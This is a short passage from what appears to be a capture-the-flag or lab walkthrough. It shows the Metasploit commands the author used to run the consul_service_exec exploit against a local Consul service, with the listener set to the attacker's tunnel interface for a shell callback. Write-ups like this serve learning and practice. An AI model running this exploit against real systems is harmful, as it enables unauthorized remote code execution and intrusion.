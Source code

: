 ![image.png](image%2035.png)

After a few minutes of googling, I found that there is an exploit on msfconsole.

```bash
use exploit/multi/misc/consul_service_exec
set lhost tun0
set rhost 127.0.0.1
run
```

![image.png](image%2036.png)
